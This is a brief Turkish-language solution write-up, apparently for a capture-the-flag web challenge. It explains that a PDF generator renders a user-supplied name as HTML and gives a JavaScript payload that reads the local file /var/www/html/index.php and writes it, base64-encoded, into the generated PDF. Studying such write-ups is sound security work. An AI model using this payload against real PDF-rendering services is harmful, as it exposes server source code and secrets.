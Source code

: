 # Çözüm
PDF Dosyası ile yerel dosyalara erişilebiliyor. Pdf oluşturulmadan önce bir html dosya oluşuyor, bu dosya daha sonra pdf e dönüştürülüyor.

Girilen isim pdf dosyasının altında yer almakta, isminizi javascript kodlarından oluşturabiliyorsunuz. Yerel bir dosyayı mevcut dökümana yazan bir script iş görecektir.

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(btoa(this.responseText))};x.open("GET","file:///var/www/html/index.php");x.send();</script>
